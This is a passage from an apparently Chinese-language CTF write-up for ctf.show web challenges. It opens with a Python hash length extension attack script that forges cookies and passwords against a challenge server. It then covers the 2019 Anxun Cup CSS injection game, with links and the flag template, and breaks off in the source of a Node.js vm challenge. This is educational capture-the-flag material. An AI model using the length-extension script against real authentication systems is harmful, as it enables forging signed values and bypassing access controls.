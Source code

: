 ```python
import hashpumpy
import requests
import time

for i in range(10, 20):
    s = hashpumpy.hashpump('d5e1090511b80a55f206f1b0c03c8b5a', 'D0g3', '1', i)
    headers = {
            "Cookie": "hash_key=d5e1090511b80a55f206f1b0c03c8b5a; source=0; getflag="+s[0]
    }
    data = {
        "username": 'D0g3',
        "password": s[1]
    }
    r = requests.post('http://3416f5e4-b1a8-45a3-9da0-7ff96465cfa6.challenge.ctf.show/', headers=headers, data=data)
    if "ctfshow" in r.text:
        print(s)
        print(r.text)
        exit(0)
    time.sleep(0.5)
```



## (x)700-2019安洵杯css game

原题是2019安洵杯的css game：

[安洵杯2019 官方Writeup(Web/Misc) - D0g3 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6911#toc-12)

[安洵杯 2019 cssgame | 洛冰河 (glacierluo.com)](https://www.glacierluo.com/exercise/ctf/web/cssgame/)

提示flag.html的内容是像这样的格式

```html
    flag.html
    <!--
        <html>
            <link rel="stylesheet" href="${encodeURI(req.query.css)}" />
             <form>
                <input name="Email" type="text" value="test">
                <input name="flag" type="hidden" value="202cb962ac59075b964b07152d234b70"/>
                <input type="submit" value="提交">
            </form>
        </html>
    -->
```



## 701-nodejs

nodejs

```php
const express = require('express');
const path = require('path');
const vm = require('vm');

const app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(express.static(path.join(__dirname, 'public')));

app.get('/', function (req, res, next) {
```